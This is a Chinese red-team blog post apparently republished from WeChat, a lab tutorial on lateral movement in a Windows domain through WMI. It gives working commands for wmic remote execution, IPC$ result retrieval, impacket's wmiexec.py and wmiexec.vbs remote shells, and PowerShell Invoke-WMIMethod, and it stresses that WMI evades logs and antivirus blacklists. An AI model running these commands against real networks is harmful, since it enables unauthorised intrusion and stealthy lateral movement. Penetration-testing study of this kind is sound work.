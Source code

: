 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/2fZpxh4xDCAlnzmyuD3fXg)

渗透攻击红队

一个专注于红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDoZibS8XU01CtEtSbwM3VGr3qskOmA1VkccY0mwKTCq6u2ia1xYRwBn3A/640?wx_fmt=jpeg)

  

  

大家好，这里是 **渗透攻击红队** 的第 **28** 篇文章，本公众号会记录一些我学习红队攻击的复现笔记（由浅到深），不出意外每天一更

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC4T65TNkYZsPg2BJ2VwibZicuBhV9DGqxlsxwG0n2ibhLuBsiamU7S0SqvAp6p33ucxPkuiaDiaKD6ibJGaQ/640?wx_fmt=gif)

WMI

自从 PsExec 在内网中被严格监控后，越来越多的反病毒厂商将 PsExec 加入了黑名单，于是黑客们渐渐开始使用 WMI 进行横向移动。

通过渗透测试发现，在使用 wmiexec 进行横向移动时，windows 操作系统默认不会将 WMI 的操作记录在日志中。因此很多 APT 开始使用 WMI 进行攻击。

**WMI**

**wmic**

* * *

使用目标系统的 cmd.exe 执行一条命令，并将结果保存在 C 盘的 ip.txt 文件中：

```
wmic /node:192.168.3.21 /user:god\\Administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >c:\\ip.txt"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbR0IBd93YdJKZenVmTJhibdial8DzbFJn2jITib01moa3C7s1A4geibiaYbbQ/640?wx_fmt=png)

去到 Windows Server 2008 域管的 C 盘下，可以发现生成的 ip.txt 文件：  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRL6Fia3kfXrtAsuObiadF1V5a9x6nCul4RWLBRxvgxwldnkpSu7CfaiaEA/640?wx_fmt=png)

我们可以通过建立 IPC$（2008 域用户 -->2008 域管），使用 type 命令读取执行结果：

```
\# 建立IPC$
net use \\\\192.168.3.21 /u:god\\administrator Admin12345
# type读取结果
type \\\\192.168.3.21\\c$\\ip.txt
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRer28ksNkzjKetkHHPyePmBdxh0ehJGaNnDtHkou9fvDhSkAeWeLS9g/640?wx_fmt=png)

使用 wmic 远程执行命令，在远程系统中启动 Windows Mannagement Instrumentation 服务（目标服务器需要开放 135 端口，wmic 会以管理员权限在远程系统中执行命令）

如果目标服务器开启了防火墙，wmic 将无法进行连接。此外 wmic 命令没有回显，需要使用 ipc$ 和 type 命令来读取信息。

PS：wmic 执行的是一些恶意文件程序，那么将不会留下攻击日志。

* * *

**impacket 工具包的 wmiexec**

下载地址：https://github.com/SecureAuthCorp/impacket

进入 impacket 目录安装依赖：

```
pip install .
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRsrGDcibgqN4yKrQA5dMtM3gIvxJOWT5HKQM3uxkCzl4pxPy1bETt2wQ/640?wx_fmt=png)

进入到 examples 目录运行脚本获取远程目标系统的 shell：

```
python wmiexec.py Administrator:Admin12345@192.168.2.25
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRoc5ObbPhJSQWicSLYI7WT5ZDXz3bb7Dqz8KYE7sJjxznl4naB6znm0A/640?wx_fmt=png)

* * *

**wmiexec.vbs**

wmiexec.vbs 可以在远程系统中执行命令并进行回显，获得远程主机的半交互式 shell：

```
cscript.exe //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRvJDnZFDOoUJzu1XicOo4ib8SrInIvo68287uibFoABOnXgicyJz7jlzGmQ/640?wx_fmt=png)

输入如下命令，使用 wmiexec.vbs 在远程主机上执行单挑命令：  

```
cscript.exe wmiexec.vbs /cmd 192.168.3.21 administrator Admin12345 "ipconfig"
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRWqibRvaJ7BvWcUWVGTVUJcP9NXx2qB9Xt75YVbsHfJDxJ7WfhLL2NNQ/640?wx_fmt=png)

对于一些运行时间比较长的命令，例如 ping、systeminfo，需要添加一个参数：“-wait 5000”，或者更长的时间间隔。

PS：wmiexec.vbs 已经被卡巴斯基，赛门铁克 等杀毒软件列入黑名单了。

* * *

**Invoke-WMIMethod**

利用 PowerShell 自带的 Invoke-WMIMethod，可以在远程系统主机上执行命令和指定程序。

```
#目标系统用户名
$User = "god\\administrator"

#目标系统密码
$Password= ConvertTo-SecureString -String "Admin12345" -AsPlainText -Force

#账号密码整合，导入Credential
$Cred = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $User , $Password

#远程运行计算器程序
Invoke-WMIMethod -Class Win32\_Process -Name Create -ArgumentList "calc.exe" -ComputerName "192.168.3.21" -Credential $Cred
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbRm9qgYTHXroaHstpByGODx4ibFwFkFbSyj16uLSUdiaGCy96DY0Rrsm0A/640?wx_fmt=png)

这个时候远程目标域控机器上就会有一个 calc.exe 的进程：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKnIhcQ1H95PHvfe7PQkfbR7ZYEA2JvLjaEJZqaHoQNlxY0BHlWCwGmor9dYdvbWItcGbZibeqrb1g/640?wx_fmt=png)

* * *

渗透攻击红队 发起了一个读者讨论 快来发表你的评论把！ 精选讨论内容

在黑客的机器上就可以

参考文章：

https://blog.csdn.net/qq\_27446553/article/details/46008473

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

渗透攻击红队

一个专注于渗透红队攻击的公众号

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDdjBqfzUWVgkVA7dFfxUAATDhZQicc1ibtgzSVq7sln6r9kEtTTicvZmcw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDY9HXLCT5WoDFzKP1Dw8FZyt3ecOVF0zSDogBTzgN2wicJlRDygN7bfQ/640?wx_fmt=png)

点分享

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDRwPQ2H3KRtgzicHGD2bGf1Dtqr86B5mspl4gARTicQUaVr6N0rY1GgKQ/640?wx_fmt=png)

点点赞

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LKwvIuOmsoicpffk7N0cVibfDgRo5uRP3s5pLrlJym85cYvUZRJDlqbTXHYVGXEZqD67ia9jNmwbNgxg/640?wx_fmt=png)

点在看